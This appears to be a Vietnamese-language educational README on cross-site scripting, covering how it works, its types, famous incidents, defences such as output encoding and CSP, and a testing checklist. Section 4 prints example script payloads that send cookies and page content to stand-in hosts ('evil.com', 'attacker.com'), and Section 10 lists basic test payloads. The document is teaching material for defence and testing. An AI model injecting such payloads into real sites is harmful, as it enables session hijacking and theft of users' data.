

# Cross-Site Scripting (XSS) — Tóm tắt mở rộng (Full Version)

## 📌 1. Giới thiệu  
Cross-Site Scripting (XSS) là lỗ hổng web xuất hiện khi ứng dụng **không lọc hoặc encode dữ liệu đầu vào**, cho phép attacker chèn và thực thi JavaScript trên trình duyệt của nạn nhân.

- Ảnh hưởng trực tiếp: Người dùng (client-side)
- Ảnh hưởng gián tiếp: Trung bình (low impact + high probability)
- Nguy hiểm vì:  
  - Dễ gặp  
  - Dễ khai thác  
  - Ảnh hưởng lớn đến privacy & session

---

## 📌 2. Cách XSS hoạt động  
```
User Input → Backend không sanitize → Trình duyệt render → Script được thực thi
```

Các điểm dễ bị XSS:
- Comment
- Search bar
- Form đăng ký / đăng nhập
- Query params (Reflected)
- DOM manipulation (innerHTML)

---

## 📌 3. Flowchart: Cách xảy ra XSS



---

## 📌 4. Các dạng tấn công XSS thực tế
### 🔥 Session Hijacking  
```
<script>
document.location='http://evil.com/steal?c='+document.cookie;
</script>
```

### 🎣 Phishing (giả popup đăng nhập)
```
<script>
alert('Phiên đăng nhập hết hạn, hãy đăng nhập lại!');
</script>
```

### 🔄 Self‑replicating Worm (Samy Worm style)
```
<script>
var s = document.createElement('img');
s.src='http://attacker.com/log?u='+document.body.innerHTML;
</script>
```

---

## 📌 5. Các vụ XSS nổi tiếng trong thực tế  
| Năm | Sự kiện | Mô tả |
|-----|---------|-------|
| **2005** | Samy Worm | Lây 1M user MySpace trong 24h |
| **2014** | TweetDeck XSS | Tweet tự retweet 38.000 lần trong 2 phút |
| **2019** | Google Search XSS | Lỗi XSS trong XML parser |
| **2010** | Apache.org XSS | Đánh cắp password người dùng |

---

## 📌 6. Ba loại XSS chính  
| Loại | Đặc điểm | Ví dụ |
|------|----------|--------|
| **Stored XSS** | Lưu trong DB → ai xem cũng dính | Comment/posts |
| **Reflected XSS** | Không lưu, nằm trong response | Search parameter |
| **DOM-Based XSS** | Xử lý **thuần client** | location.hash, innerHTML |

---

## 📌 7. Tấn công XSS có thể gây ra  
- Đánh cắp session / cookie  
- Mạo danh người dùng  
- Thay đổi mật khẩu  
- Phishing  
- Defacing website  
- Viết worm tự nhân bản  
- Đào coin trên trình duyệt  
- Tương tác API trái phép  
- Khai thác lỗ hổng trình duyệt để RCE

---

## 📌 8. Phòng chống XSS  
### 🧹 1. Input Validation  
- Loại bỏ ký tự nguy hiểm `< > " ' / &`

### 🔏 2. Output Encoding  
- Encode HTML, JS, URL

### 🧩 3. Sử dụng Content Security Policy (CSP)  
Ví dụ: chặn inline script
```
Content-Security-Policy: script-src 'self';
```

### 🧱 4. Không bao giờ trust dữ liệu từ client  

### 📦 5. Sử dụng framework an toàn  
- React  
- Angular  
- Django  
- Laravel  
(đều auto sanitize)

---

## 📌 9. Checklist kiểm tra XSS nhanh  
- [ ] Kiểm tra input để tìm ký tự `<script>`  
- [ ] Thử payload vào search bar  
- [ ] Kiểm tra DOM (innerHTML, document.write)  
- [ ] Kiểm tra param URL  
- [ ] Kiểm tra các API trả về HTML  
- [ ] Kiểm thử Stored XSS từ comment/profile  

---

## 📌 10. Payload XSS cơ bản  
| Loại | Payload |
|------|---------|
| Pop‑up test | `<script>alert(1)</script>` |
| Bypass HTML tag | `` |
| Inline JS | `" onmouseover="alert(1)` |
| DOM XSS | `#">` |

---

## 📌 11. Kết luận  
XSS vẫn là một trong những lỗ hổng phổ biến nhất, dễ khai thác nhưng cực kỳ nguy hiểm.  
Việc phòng chống phải kết hợp:  
✔ Input filtering  
✔ Output encoding  
✔ CSP  
✔ Developer training  

---


